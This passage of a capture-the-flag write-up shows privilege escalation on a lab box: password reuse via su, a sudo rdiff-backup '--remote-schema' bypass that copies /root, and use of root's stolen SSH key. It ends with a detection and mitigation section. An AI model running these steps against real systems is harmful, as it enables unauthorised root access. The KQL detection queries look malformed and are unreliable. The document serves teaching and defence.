


This gave us a plaintext password. The natural next question in any box like this is: **does this password get reused anywhere else, like a real system account?**

#### Checking for Password Reuse

```bash
openam@management:/opt/glpi/config$ ls /home
```

```
owen
```

There's exactly one local user home directory: `owen`. This is the obvious candidate to test the recovered LDAP password against, since GLPI/LDAP bind credentials on these boxes are frequently reused for a real Linux account.

```bash
openam@management:/opt/glpi/config$ su - owen
Password: 
owen@management:~$
```

**Proof of password reuse:** the `su - owen` command succeeded using the password we decrypted from the GLPI LDAP configuration - no error, and the prompt changed to `owen@management:~$`. This confirms the LDAP bind password decrypted from `glpicrypt.key` was reused as `owen`'s actual login password on the box.

#### User Flag

```bash
owen@management:~$ cat user.txt
```




### Privilege Escalation Path: `owen` -> `root`

#### Checking Sudo Rights

```bash
owen@management:~$ sudo -l
```



```
Matching Defaults entries for owen on management:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User owen may run the following commands on management:
    (root) NOPASSWD: /usr/bin/rdiff-backup --server --restrict-path /opt/backup --restrict-mode read-only *
```

**What this means:** `owen` can run `rdiff-backup` as `root`, without a password, but only in **server mode**, restricted to the `/opt/backup` path, and in **read-only** mode. `rdiff-backup` is a tool for incremental, versioned backups - when run with `--server`, it acts as the remote/backend half of a backup operation that a *client* rdiff-backup process talks to.

**The catch:** `--restrict-path` is meant to sandbox the server to only serve files under `/opt/backup`. However, `rdiff-backup`'s restrict mode has historically been possible to defeat by pairing it with **remote-schema tricks** on the client side, effectively letting the client-side invocation control what path gets accessed, in some versions/configurations. Rather than reasoning about this purely in theory, this was tested directly (see below), and the practical result was that we could read arbitrary files outside the intended restriction - including root's own home directory.

> **Reference used:** https://www.usrsb.in/Secure-Versioned-Remote-Backups-with-Rdiff-Backup.html
> This explains the mechanics of `rdiff-backup`'s client/server/remote-schema model and is a good plain-language primer if `--remote-schema` looks unfamiliar.

#### Abusing the Sudo Rule to Read Root's Files

The idea: use `rdiff-backup` **locally** as the client, but tell it to reach the "remote" side via our sudo-permitted server command (`--remote-schema`). Since the sudo rule lets us invoke the server as root, and the server ends up serving whatever path we hand it through the schema, we can mirror **root's home directory** onto our own filesystem.

```bash
owen@management:~$ rdiff-backup --remote-schema 'sudo /usr/bin/rdiff-backup --server --restrict-path /opt/backup --restrict-mode read-only --restrict-path %s' backup /::/root /tmp/rootbak
```

```
WARNING: this command line interface is deprecated and will disappear, start using the new one as described with '--new --help'.
WARNING: Server will be called with deprecated command line interface to guarantee compatibility. It might lead to a deprecation warning from newer rdiff-backup versions. Use '--api-version 201' (or higher) to avoid it.
NOTE: Starting mirror from source path /root to destination path /tmp/rootbak
```

**Breaking that command down in plain words:**
- `--remote-schema '...'` tells the local `rdiff-backup` client how to spawn its "remote" counterpart - in this case, by running our permitted sudo command.
- `%s` is a placeholder that rdiff-backup substitutes with the actual path being requested.
- `/::/root` tells rdiff-backup: connect to the "remote" side (via the schema above) and mirror `/root` - i.e., even though the sudo rule nominally restricts the server to `/opt/backup`, the way the restriction is enforced (per-invocation via that trailing `--restrict-path %s`) means our client-supplied target path (`/root`) ends up being what actually gets served, since we control what gets substituted into the schema.
- `/tmp/rootbak` is where the mirrored copy of `/root` lands locally, in our own writable space.

This worked and mirrored root's home directory into `/tmp/rootbak`.

#### Proof: Reading Files Outside the Intended Restriction

```bash
owen@management:~$ ls /tmp/rootbak
```

```
rdiff-backup-data  root.txt
```

**This is the proof the restriction was bypassed:** `root.txt` (which only exists inside `/root`, nowhere near `/opt/backup`) is now sitting in our own `/tmp/rootbak` directory, mirrored there by a command that was supposedly locked to `/opt/backup`.

```bash
owen@management:~$ cat /tmp/rootbak/root.txt
```

```
[REDACTED ROOT FLAG - retrieved via file read only, before full root shell was obtained]
```

#### Escalating to a Full Root Shell via Stolen SSH Keys

Since the whole of `/root` was mirrored, that includes root's `.ssh` directory:

```bash
owen@management:~$ ls -la /tmp/rootbak/.ssh
```

```
total 20
drwx 2 owen owen 4096 Sep  7 11:41 .
drwx 7 owen owen 4096 Sep 14 10:43 ..
-rw- 1 owen owen   97 Jul 16 15:37 authorized_keys
-rw- 1 owen owen  411 Jul 16 15:37 id_ed25519
-rw-r--r-- 1 owen owen   97 Jul 16 15:37 id_ed25519.pub
```

Root's **private SSH key** (`id_ed25519`) was mirrored along with everything else. Using it to SSH in directly as root, locally:

```bash
owen@management:~$ ssh -i /tmp/rootbak/.ssh/id_ed25519 root@localhost
```

```
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ED25519 key fingerprint is SHA256:[REDACTED FINGERPRINT]
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'localhost' (ED25519) to the list of known hosts.
Welcome to Ubuntu 24.04.5 LTS (GNU/Linux 6.8.0-139-generic x86_64)

 System information as of Mon Sep 14 11:39:30 AM UTC 2026
  System load:           0.11
  Usage of /:            45.5% of 10.42GB
  Memory usage:          43%
  Swap usage:            0%
  Processes:             236
  Users logged in:       0
  IPv4 address for eth0: 10.129.xx.xx
  IPv6 address for eth0: dead:beef::250:56ff:fe95:e605

Last login: Mon Sep 14 11:39:31 2026 from 127.0.0.1
root@management:~#
```

This gave a **full interactive root shell** - a much cleaner win than repeatedly abusing the file-read primitive.

#### 5 Root Flag (Confirmed via Shell)

```bash
root@management:~# cat root.txt
```


Confirmed identical to the flag already retrieved via the `rdiff-backup` file-read trick in section 5.3 - consistent proof across two different methods that root access was fully achieved.


## Defensive Operations

### Strategic Overview

* **1.1 Definition:** A pre-authentication Java deserialization vulnerability in an identity/access management platform (OpenAM) chained with an encrypted-credential recovery flaw in a second local web application (GLPI), compounded by password reuse and an insecure sudo delegation to a backup utility.
* **1.2 Impact:** **Full System Compromise (Root).** The chain demonstrates how an unauthenticated attacker can go from zero access to root by pivoting through unrelated internal services, none of which were individually catastrophic - the compromise emerges from how they interact.
* **1.3 The Scenario:** An attacker fingerprints an exposed SSO portal, identifies an outdated OpenAM version, and exploits an unrestricted deserialization endpoint to gain code execution as the service account. From there, a second application's database leaks an encrypted directory-bind password, which is decrypted using the application's own on-disk key and reused to log in as a real system user. That user's narrowly-scoped sudo rule for a backup tool is then abused via its remote-schema mechanism to read outside its intended sandbox, ultimately exfiltrating root's SSH key.

### System Architecture & Theory

* **2.1 Protocol Environment:**
  * **Frontend:** Nginx (name-based virtual hosting, TLS termination).
  * **Identity Layer:** OpenAM 16.0.5 (Java, JATO web framework), LDAP (anonymous bind enabled on one listener).
  * **Secondary Application:** GLPI (PHP), backed by local MariaDB.
  * **Privilege Model:** Linux Sudoers (NOPASSWD execution of `rdiff-backup --server` with a path restriction flag).

* **2.2 Attack Logic Flow:**
> [OpenAM Version Disclosure] -> [Pre-Auth Deserialization RCE] -> [Shell as `openam`] -> [GLPI Config/DB Disclosure] -> [Encrypted LDAP Password Decrypted via On-Disk Key] -> [Password Reuse as `owen`] -> [Sudo Rule on `rdiff-backup`] -> [`--remote-schema` Restriction Bypass] -> [Root SSH Key Theft] -> [Root Access]

* **2.3 Theoretical Analogy:**
  * **Initial Access:** A "Forged Credential" entry. The deserialization bug doesn't require knowing any secret - it exploits the fact that the door (the session-restore endpoint) will accept and reconstruct any shape of key you hand it, not just its own.
  * **PrivEsc (Credential Recovery):** "The Spare Key Under the Mat." The application needed the plaintext password back at some point, so it never truly locked it away - it just hid the key (encryption key file) nearby, in a place any occupant of the house could find.
  * **PrivEsc (Sudo Abuse):** "The Restricted Courier." The courier (the sudo-permitted server process) is told to only deliver packages from one warehouse, but the delivery instructions are written by the person requesting the package - so they simply write a different warehouse address on the label.

### The Attack Vector (Mechanics)

#### The Core Mechanism

| Attribute | Technical Details |
|:---------------------------------|:------------------------------------------------------------------------------|
| **Primary Identifiers** | **Parameter:** `jato.clientSession` (OpenAM session-restore parameter)<br><br>**File Paths:** `/opt/glpi/config/config_db.php`, `/opt/glpi/config/glpicrypt.key` |
| **Critical Vulnerability** | **Initial:** Unrestricted Java deserialization (no class whitelist) in `ClientSession.deserializeAttributes()`.<br><br>**PrivEsc:** Reversibly-encrypted (not hashed) LDAP bind password decryptable by anyone with read access to the app's key file; sudo rule enforcing path restriction per-invocation rather than immutably. |
| **Offensive Action** | **Web:** Delivered a base64-encoded serialized gadget chain (`PriorityQueue -> Column$ColumnComparator -> TemplatesImpl -> EvilTranslet`) to JATO ViewBean endpoints.<br><br>**System:** Called the application's own decryption routine against its own key file; supplied a malicious `--remote-schema` to substitute the sudo-restricted path. |

#### Prerequisites

* **Access Level:** Unauthenticated for Initial Access; low-privileged service account (`openam`) for the credential-recovery pivot; local user (`owen`) for the sudo-based PrivEsc.
* **Connectivity:** Vulnerable JATO endpoints reachable pre-auth over HTTPS; local MariaDB instance bound to loopback and reachable with recovered application credentials.
* **Target State:** OpenAM version prior to the patched release; GLPI's encryption key file readable by the compromised service account; sudoers entry granting `NOPASSWD` execution of a backup tool's server mode with a per-invocation (not structurally enforced) path restriction.

### Threat Hunting & Anomaly Analysis

* **Hunt Hypothesis:**
  * **Hypothesis 1 (Web):** Adversaries are exploiting outdated identity/SSO software directly from the internet. Look for repeated requests to JATO ViewBean paths (`/ui/Login`, `/ui/PWResetUserValidation`, `/ui/PWResetQuestion`) carrying unusually large, high-entropy base64 values in the `jato.clientSession` parameter.
  * **Hypothesis 2 (Credential Recovery):** Adversaries are harvesting and decrypting stored application secrets rather than cracking hashes. Look for process execution of `php` invoking application-internal classes (e.g., `GLPIKey`) outside of normal web request handling, or direct file reads of key material (`*.key`) by non-web-server processes.
  * **Hypothesis 3 (Sudo Abuse):** Adversaries are exploiting backup/sync tooling with permissive sudo rules. Look for `rdiff-backup` (or similar) invocations where the `--remote-schema` argument itself contains a `sudo` call, or where the effective path accessed diverges from the path named in the sudoers entry.

* **Behavioral Outliers:**
  * **Anomalous session parameter size/entropy:** Legitimate JATO session cookies/parameters have a fairly consistent size and structure; a serialized Java gadget chain is markedly larger and denser.
  * **Out-of-band callbacks from application servers:** A server-side process (Java/OpenAM) initiating outbound HTTP requests to unfamiliar external IPs is a strong indicator of command execution, since these services have no legitimate reason to make arbitrary outbound calls.
  * **Su/login success immediately following a database credential dump:** A `su` or SSH login succeeding shortly after a process reads from `glpi_authldaps` or similar credential tables is a high-fidelity password-reuse indicator.
  * **`--remote-schema` containing `sudo`:** This argument shape is almost never legitimate in normal backup operations and should be treated as a near-certain restriction-bypass attempt.

* **Toxic Combinations:**
  * **Pre-auth deserialization endpoint** + **No class whitelist:** Any object type submitted gets reconstructed, turning a session-restore feature into arbitrary code execution.
  * **Reversible credential storage** + **World-readable (to the app user) key file:** Any process running as the application's own user can trivially recover plaintext secrets never meant to be exposed directly.
  * **Sudo NOPASSWD on backup tooling** + **Client-controlled remote-schema/path arguments:** A restriction expressed as a command-line flag, rather than enforced by the OS or a wrapper with no user-controlled path logic, is trivially bypassed by the same user invoking it.

### Detection Engineering (Blue Team)

* **Telemetry Gap Analysis:**
  * **Required:** Application/access logs for the OpenAM instance (with full parameter values, not truncated), MySQL/MariaDB general query logs, `auditd` file-access logs for key material, sudo/auth logs with full command-line arguments.
  * **Gap:** Standard nginx/reverse-proxy logs often don't capture POST bodies or full query parameters, which can hide the malicious `jato.clientSession` payload entirely.

* **Detection-as-Code (KQL):**

```kql
// Detects abnormally large/dense session-restore parameters hitting JATO endpoints
let openam_deser_attempts = navigate("web_logs")
| where url has_any ("/ui/Login", "/ui/PWResetUserValidation", "/ui/PWResetQuestion")
| where url contains "jato.clientSession" and strlen(url) > 2000
| project Timestamp, SourceIP, Url, StatusCode;

// Detects application key-file access by non-webserver processes
let key_access = navigate("auditd_logs")
| where file_path endswith ".key" and file_path contains "glpi"
| where process_name != "php-fpm" and process_name != "apache2"
| project TimeGenerated, Actor = user_name, Process = process_name, File = file_path;

// Detects sudo invocations of backup tooling with a nested sudo in remote-schema
let sudo_schema_abuse = navigate("auth_logs")
| where message contains "rdiff-backup" and message contains "remote-schema"
| where message contains "sudo"
| project TimeGenerated, User = user_name, Command = message;

// Correlate: DB credential-table read -> new local session for a different user within 5 minutes
join kind=inner (navigate("db_logs") | where query_text contains "authldaps") on $left.db_user == $right.User
| where (sudo_schema_abuse.TimeGenerated - db_logs.TimeGenerated) between (0s .. 300s)
```

* **Resilience Test:**
  * **Bypass:** Attacker targets a different pre-auth endpoint not covered by the JATO path list, or splits/obfuscates the serialized payload to stay under a length threshold.
  * **Countermeasure:** Implement generic detection for Java serialization magic bytes (`rO0AB...` in base64) in any HTTP parameter, regardless of endpoint or size.

### Toolkit & Implementation

* **Automation:**
  * **Initial Access:** Public exploit script automating gadget-chain construction and delivery (`Exploit_CVE_2026_33439.py`).
  * **Credential Recovery:** One-line PHP invocation of the target application's own decryption class - no custom crypto implementation needed.
  * **PrivEsc:** Native `rdiff-backup` client functionality (`--remote-schema`) - no custom tooling required, only argument crafting.

* **OPSEC Analysis:**
  * **Covert:** The initial RCE requires no authentication and leaves minimal footprint beyond the HTTP requests themselves; the credential decryption step runs entirely locally as a legitimate-looking PHP process.
  * **Overt:** The `su`/SSH login as a different user immediately following database access is a distinctive, hard-to-hide sequence; the root SSH private key ending up copied outside `/root` is a durable filesystem artifact.

* **Post-Exploitation:**
  * Persistence could be achieved by retaining the decrypted LDAP/local credentials, or by planting an additional SSH key in `/root/.ssh/authorized_keys` once root is obtained.

### Defensive Mitigation

* **Technical Hardening:**
  * **Patch Management:** Upgrade OpenAM/identity platforms promptly; version strings should not be exposed in client-facing page source in the first place.
  * **Credential Storage:** Avoid reversible encryption for service-account/bind passwords where possible; where required, restrict key-file permissions strictly to the owning service, and rotate keys independent of application redeploys.
  * **Password Hygiene:** Prohibit reuse of service/application credentials as real user account passwords; enforce this with automated credential-reuse scanning where feasible.
  * **Sudo Restrictions:** Avoid granting `NOPASSWD` sudo rules for tools whose path restrictions are enforced via user-suppliable command-line arguments rather than the OS or a non-bypassable wrapper.

* **Personnel Focus:**
  * **Code Review:** Audit sudoers entries for any rule where a "restriction" flag can be influenced or duplicated by attacker-controlled arguments (as with the trailing `*` and repeated `--restrict-path`).
  * **Secrets Management:** Move toward centralized secrets management (e.g., a vault) rather than per-application encrypted config values, so no single on-disk key can decrypt everything.

### Quick-Action Playbook

| Step | Objective | Technical Command / Logic |
|:----:|:------------|:-------------------------------------------------------------------------------|
| 01 | **Enumerate** | `nmap -sV -sC`; identify TLS-cert-leaked vhosts; browse SSO portal and check page source for version strings. |
| 02 | **Exploit (Web)** | Run public CVE-2026-33439 exploit against JATO endpoints with `jato.clientSession` gadget chain; confirm via out-of-band callback before shelling. |
| 03 | **Pivot (Local)** | Locate secondary app config (`config_db.php`); dump `glpi_authldaps.rootdn_passwd`; decrypt using on-disk `glpicrypt.key` via the app's own PHP class. |
| 04 | **Credential Reuse** | Test decrypted password against the sole local user home directory via `su -`. |
| 05 | **Escalate** | Abuse `sudo -l`-permitted `rdiff-backup --server` rule via `--remote-schema` to mirror `/root` instead of the restricted `/opt/backup`, exfiltrating `root.txt` and root's SSH private key. |
| 06 | **Full Root Access** | `ssh -i <stolen_key> root@localhost` -> interactive root shell. |